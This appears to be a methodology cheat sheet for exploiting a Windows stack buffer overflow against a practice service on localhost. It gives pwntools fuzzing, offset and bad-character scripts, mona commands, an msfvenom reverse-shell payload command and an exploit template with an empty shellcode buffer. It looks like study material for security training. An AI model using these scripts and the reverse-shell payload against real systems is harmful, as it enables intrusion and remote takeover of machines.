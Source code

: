 # On windows

## Analyse with Immunity Debugger
Download: https://www.immunityinc.com/products/debugger/
Install mona.py: https://github.com/corelan/mona

### Setup mona
No need to use `-set workingfolder` if mona is installed in PyCommands folder of Immunity Debugger
```
!mona config
```

### Fuzz
#### Die on input length
Use following script to try inputs of increasing size
```python
#!/usr/bin/env python3
import time, sys
from pwn import *

prefix = ''
string = b'A' * 50

while True:
  try:
    print("Fuzzing with {} bytes".format(len(string) - len(prefix)))
    nc = remote('127.0.0.1', 9999)
    nc.recvuntil(b'>> ')
    nc.write(string + b"\n")
    string += 50 * b'A'
    nc.close()
    time.sleep(1)
  except:
    print("Fuzzing crashed at {} bytes".format(len(string) - len(prefix)))
    sys.exit(0)
```

Generate a more interesting payload of the length that was enough to make the program die
```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l PAYLOAD_LENGTH
```

Fine grained detection of the length
```python
#!/usr/bin/env python3
import time, sys
from pwn import *

string = b'Aa0'

nc = remote('127.0.0.1', 9999)
nc.recvuntil(b'>> ')
nc.write(string + b"\n")
nc.close()

```

Use `!mona findmsp -distance PAYLOAD_LENGTH`.
Output of mona should show: `EIP contains normal pattern : ... (offset XXXX)`, note the offset.
If this line doesn't show, but `EBX(/EBP) contains normal pattern : ...`, note their offset a deduce EIP offset => Try EBP + 4

Confirm the offset, with following script, at crash EIP should be 42424242
```python
#!/usr/bin/env python3
import time, sys
from pwn import *

overflow = b'A' * 524
string = b'BBBB'

nc = remote('127.0.0.1', 9999)
nc.recvuntil(b'>> ')
nc.write(overflow + string + b"\n")
nc.close()
```

Find "bad characters".
P1: Generate bad chars
```python
found = ["00"]

for x in range(1, 256):
  if "{:02x}".format(x) not in found:
    print("\\x" + "{:02x}".format(x), end='')
print()
print()
print("!mona bytearray -b " + '"', end='')
for x in range(0, 256):
  if "{:02x}".format(x) in found:
    print("\\x" + "{:02x}".format(x), end='')
print('"', end='')
print()

# !mona bytearray -b "\x00"
# !mona compare -f bytearray.bin -a ESP_ADDR
```
P2: Test the payload
```python
#!/usr/bin/env python3
import time, sys
from pwn import *

overflow = b'A' * 524
string = b''

nc = remote('127.0.0.1', 9999)
nc.recvuntil(b'>> ')
nc.write(overflow + string + b"\n")
nc.close()
```

Find ESP addr
```bash
!mona jmp -r esp # check inside current program, might miss some jump in the DLL
# Check https://www.rcesecurity.com/2011/12/stack-manipulation-using-pop-ret/ for DLL
```

Generate exploit
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=12345 EXITFUNC=thread -b "\x00" -f py
```

Need NOP between overflow until EIP

Exploit
```python
#!/usr/bin/env python3
import time, sys
from pwn import *

overflow = b'A' * 146
returnAddr = b'\xc3\x14\x04\x08' # ESP jmp ADDR, care about Endianness
padding = b'\x90' * 20

# Cf msfvenom -p windows/shell_reverse_tcp LHOST=127.0.0.1 LPORT=12345 EXITFUNC=thread -b "\x00" -f py
buf =  b""

nc = remote('127.0.0.1', 31337)
nc.write(overflow + returnAddr + padding + buf + b"\n")
nc.close()

# p32(0xdeadbeef)

```